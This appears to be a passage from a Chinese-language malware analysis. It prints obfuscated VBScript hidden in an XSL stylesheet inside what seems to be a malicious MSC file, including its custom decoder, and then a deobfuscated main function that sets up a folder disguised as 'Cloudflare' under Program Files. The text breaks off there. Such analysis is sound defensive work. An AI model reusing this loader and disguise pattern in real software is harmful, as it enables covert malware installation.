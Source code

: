 ```
Case 48,49,50,51,52,53,54,55,56,57
arrayByte3(ZyvKLLyyHHD)=ZyvKLLyyHHD+4
Case 43
arrayByte3(ZyvKLLyyHHD)=62
Case 47
arrayByte3(ZyvKLLyyHHD)=63
Case Else
End Select
Next
For ZyvKLLyyHHD=0 To 63
Rp7jaY2jOqr(ZyvKLLyyHHD)=ZyvKLLyyHHD*64
arrayLong5(ZyvKLLyyHHD)=ZyvKLLyyHHD*4096
Mbt0mzk6(ZyvKLLyyHHD)=ZyvKLLyyHHD*262144
Next
Liefs=StrConv(MiCzi9,vbFromUnicode)
ReDim CYhV8N((((UBound(Liefs)+1)\4)*3)-1)
For iter=0 To UBound(Liefs) Step 4
NALQp0Gu3=Mbt0mzk6(arrayByte3(Liefs(iter)))+arrayLong5(arrayByte3(Liefs(iter+1)))+Rp7jaY2jOqr(arrayByte3(Liefs(iter+2)))+arrayByte3(Liefs(iter+3))
ZyvKLLyyHHD=NALQp0Gu3 And 16711680
CYhV8N(VKkZEf)=ZyvKLLyyHHD\65536
ZyvKLLyyHHD=NALQp0Gu3 And 65280
CYhV8N(VKkZEf+1)=ZyvKLLyyHHD\256
CYhV8N(VKkZEf+2)=NALQp0Gu3 And 255
VKkZEf=VKkZEf+3
Next
YBx4PZLTHSQ1=StrConv(CYhV8N,vbUnicode)
If b7Z9n8 Then YBx4PZLTHSQ1=Left(YBx4PZLTHSQ1,Len(YBx4PZLTHSQ1)-b7Z9n8)
t4zFxxgg22=FTKaWvcYaGWt(StrConv(YBx4PZLTHSQ1,vbFromUnicode))
t4zFxxgg22=qY7AOEpU1wn(t4zFxxgg22,"~")
End Function
Function qY7AOEpU1wn(str,chars)
Dim fqX3dbudmU
Dim XVZECKbx()
XVZECKbx=Split(str,chars)
fqX3dbudmU=UBound(XVZECKbx,1)
If fqX3dbudmU<>0 Then
str=Left(str,Len(str)-fqX3dbudmU)
End If
qY7AOEpU1wn=str
End Function
]]></ms:script>
</stylesheet>".replace("_MSC",v)));XML.transformNode(xsl)
```

反混淆处理

```
' 主函数
Function AJ8p()
    On Error Resume Next
    
    ' 初始化对象
    Set shell = CreateObject("WScript.Shell")
    Set fs = CreateObject("Scripting.FileSystemObject")
    
    ' 获取程序文件目录
    programFiles = shell.ExpandEnvironmentStrings("%ProgramFiles%")
    
    ' 创建目标目录
    targetDir = programFiles & "\Cloudflare"
    fs.CreateFolder(targetDir)
    
    ' 定义文件路径
```
